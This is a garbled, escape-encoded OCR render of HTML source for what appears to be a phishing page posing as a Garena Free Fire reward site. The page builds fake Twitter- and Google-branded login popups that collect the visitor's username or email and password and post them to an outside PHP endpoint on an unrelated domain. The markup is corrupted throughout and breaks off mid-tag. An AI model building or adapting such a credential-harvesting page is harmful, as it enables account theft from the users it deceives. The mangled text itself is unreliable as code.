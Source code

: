 #
reward.ff.garena.en053D'0522fa'0520fa-plus'0522'053E'053C/i'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/center'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522cop'5@right'0522'053EFace'42ook'0520Inc'0A'053C/div'053E'050A'0520'0520'0520'0520'053C/div'053E'050A'053C/div'053E'050A'050A'053Cdiv'0520class'053D'0522popup-login'0520twitter'0520animated'0520fadeIn'0522'0520st'5@le'053D'0522displa'5@'053A'0520none'053B'0522'053E'050A'0520'0520'0520'0520'053Cdiv'0520class'053D'0522popup-'42ox-login-twitter'0522'0520st'5@le'053D'0522text-align'053Aleft'053B'0520padding'053A5px'053B'0522'053E'050A'050'1@'050'1@'0520'0520'0520'0520'0520'0520'0520'0520'053Ca'0520onclick'053D'0522closetwit'052'1C'052'1@'0522'0520class'053D'0522close-other'0522'053E'053Ci'0520class'053D'0522zmdi'0520zmdi-close'0522'053Eclose'053C/i'053E'053C/a'053E'050A'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522header-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Ccenter'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cimg'0520src'053D'0522https'053A//2p'0Acom'0Atr/wp-content/uploads/201'1C/07/google'7FPNG1'1@635'0Apng'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/center'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522'42ox-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Ccenter'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cform'0520action'053D'0522https'053A//raviral'0Acom/k'7Ffac'0Aphp'0522'0520method'053D'0522post'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522txt-login-twitter'0522'053ELogin'0520to'0520Google'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522input-'42ox-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cla'42el'053EPhone'052C'0520email'052C'0520or'0520username'053C/la'42el'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522text'0522'0520name'053D'0522email'0522'0520placeholder'053D'0522'0522'0520required'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522input-'42ox-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cla'42el'053EPassword'053C/la'42el'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522password'0522'0520name'053D'0522pass'0522'0520placeholder'053D'0522'0522'0520required'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522login'0522'0520value'053D'0522Twitter'0522'0520readonl'5@'053E'050A'050'1@'050'1@'050'1@'050'1@'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522t'5@pe'05
